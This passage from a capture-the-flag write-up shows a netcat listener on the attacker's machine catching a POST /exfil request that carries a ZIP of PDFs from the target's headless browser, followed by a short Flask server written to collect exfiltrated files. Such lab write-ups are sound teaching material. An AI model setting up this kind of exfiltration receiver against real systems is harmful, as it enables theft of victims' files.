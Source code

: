 
What comes back is a ZIP archive:

    
    
    oxdf@hacky$ nc -lnvkp 80                                                                                                  
    Listening on 0.0.0.0 80                                                        
    Connection received on 10.10.11.215 47762                                      
    POST /exfil HTTP/1.1                                                           
    Host: 10.10.14.6                                                               
    Connection: keep-alive                                                         
    Content-Length: 1629                                                           
    User-Agent: Mozilla/5.0 (X11; Linux x86_64) AppleWebKit/537.36 (KHTML, like Gecko) HeadlessChrome/119.0.6045.199 Safari/537.36                                                                                                                                                                                               
    Accept: */*                                                                    
    Origin: http://bookworm.htb                                                    
    Referer: http://bookworm.htb/                                                  
    Accept-Encoding: gzip, deflate                                                 
    
    p>V$Alice's Adventures in Wonderland.pdfmRkAै'RhnɦmIA2L3qwVfE E< Vz)V=yDL~Ѹ{7Kj( /UQ"u                                                                         
    8Glpx   PA<yZHq&(>DdL"E]6q.4M-^)*L"_xPg5u*aנx<1~z7vV-]g+i?{4v??>oz?                                                                                           
    æ>~GmsEt/ə@xT-* JAE8,^v                                            ~ؿp;<vnQU6.GSaY")HWB                                                                       
    _`]%>,E#K=$*8k˖Hp:䚦RCB'07+r%dsnCQS%,MhaEE">XXg'SDr-m2[lڒY`;wIpwix0r@T:Ti1                                                                                    
    
                  Fc2v hhx85P?up>VThrough the Looking-Glass.pdfmRn@`$Tu]P)-"gUMj5Pp$XtX6;~>WaMm x39.U뺚Չ                                                          
    =R*ѭ~nnL                                                                       
    
    8:40mT8De̗,Ya$0jE*zG                                                            
                       $1{;hu>Wkt/̝_8||yA晸QxK,sSP?svg\yQN:,8@BO)qEhBokM0fV+@PbZaKkq]so@70z"\B/#P    ]gC*K   0/MsԮZ@':nk2>k-B                                                                                                                                                                                                     
    z+2MtEՊ4%?0ݷg5Bily                                                             
    LawzsB,֨wf3()^m@('LS7                                                           
             (Y0n3}\N?V#|P \4!dB                                                   
                                bx|.GPWG|Pp>V?u$ Alice's Adventures in Wonderland.pdfPp>VWG| Through the Looking-Glass.pdfPK 
    

It looks a bit weird here because some of the binary bytes end up messing up
some of the ASCII ones, but collecting it again and saving it to a file shows
that it is as I’ll show in the next section.

### File Read

#### Webserver

If I’m going to be trying to collect files, it seems time to make a better
webserver than just catching them with `nc`.

    
    
    from pathlib import Path
    from flask import Flask, request
    
    app = Flask(__name__)
    
    @app.route('/exfil', methods=["POST"])
    def exfil():
        print("Got a file")
        data = request.get_data()
        output = Path(f'exfil/exfil.zip')
        output.write_bytes(data)
        return ""
    
